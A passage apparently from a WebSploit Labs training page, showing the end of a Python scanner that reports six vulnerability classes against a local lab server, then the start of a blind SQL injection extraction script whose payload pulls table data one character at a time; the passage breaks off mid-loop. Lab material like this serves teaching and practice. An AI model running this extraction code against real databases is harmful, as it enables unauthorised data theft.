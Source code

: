 ```python
        print("\n" + "="*50)
        print("WEBSPLOIT LABS VULNERABILITY ASSESSMENT REPORT")
        print("="*50)
        
        vulnerabilities = [
            ("SQL Injection", self.test_sql_injection()),
            ("Command Injection", self.test_command_injection()),
            ("XXE", self.test_xxe()),
            ("Deserialization", self.test_deserialization()),
            ("IDOR", self.test_idor()),
            ("File Upload", self.test_file_upload())
        ]
        
        print(f"\nTarget: {self.base_url}")
        print(f"Scan Date: {requests.utils.formatdate()}")
        print("\nVulnerability Summary:")
        print("-" * 30)
        
        found_count = 0
        for vuln_name, found in vulnerabilities:
            status = "VULNERABLE" if found else "NOT DETECTED"
            print(f"{vuln_name:<20} : {status}")
            if found:
                found_count += 1
        
        print(f"\nTotal Vulnerabilities Found: {found_count}/6")
        print("\n[!] This is an educational environment with intentional vulnerabilities")

if __name__ == "__main__":
    scanner = WebSploitScanner("http://localhost:5000")
    scanner.generate_report()
```

### SQL Injection Exploitation Script
```python
#!/usr/bin/env python3
"""
SQL Injection Data Extraction Tool
"""

import requests
import string
import time

def extract_data_blind_sqli(url, injection_point, table, column, where_clause=""):
    """Extract data using blind SQL injection"""
    
    extracted_data = []
    row_count = get_row_count(url, injection_point, table, where_clause)
    
    print(f"[*] Found {row_count} rows in {table}")
    
    for row in range(row_count):
        data = ""
        for pos in range(1, 50):  # Assume max 50 chars per field
            for char in string.printable:
                if char in ['%', '_', '\\', '\'']:
                    continue
                
                # Blind SQL injection payload
                payload = f"' AND (SELECT SUBSTR({column},{pos},1) FROM {table} {where_clause} LIMIT 1 OFFSET {row})='{char}'-- "
                
```